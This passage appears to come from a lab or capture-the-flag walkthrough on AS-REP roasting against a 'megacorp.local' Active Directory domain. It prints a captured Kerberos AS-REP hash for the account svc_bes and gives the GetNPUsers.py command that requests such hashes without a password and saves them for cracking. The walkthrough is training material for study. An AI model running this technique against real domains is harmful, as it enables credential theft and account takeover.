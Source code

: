 ![](media/image144.png)

Below out TGT ticket
``` shell
  ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  **\$krb5asrep\$23\$svc\_bes@MEGACORP.LOCAL:0969b177c87205436a4ef15e3227c3af\$f967e09d463ebcfa60a01c5ddb3606de78b62d8629e8de55578236534abf7a8442f3b07dfe0b8fa622dceabb66586c99dec8a3e4629a099fb01acc5721e0ca5ebf59fa0f6841f456a7a855ded8fb2b5860066cca671c8ea362c335c5a1a0bde1a9091b629535fec165388e46b3069c002dd45569a89f6d30f9139911968364ae84bf06de3d39cdcbb3a44b373f71c3ff3f030f3896fa4f698693889e8677136e942d9ba1e3175dc70e67f1b998d52170f3347dcc766fda831f9cd5d1f7d94706f3b423a9bf75869a6772280f69d2f2855a3b855ee221f053478f7e54c98c7fde493f85ce3cec16e47f0c20ced4a65b14**
  ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```
Once obtained the TGT ticket for the **svc\_bes,** let’s save it into a
file called hash(it could be any name).

![](media/image145.png)

We could have also used:
``` shell
  -----------------------------------------------------------------------------------------------------
  **GetNPUsers.py megacorp.local/svc\_bes -request -no-pass -dc-ip 10.10.10.30 | grep krb > hash**
  -----------------------------------------------------------------------------------------------------
```
![](media/image146.png)
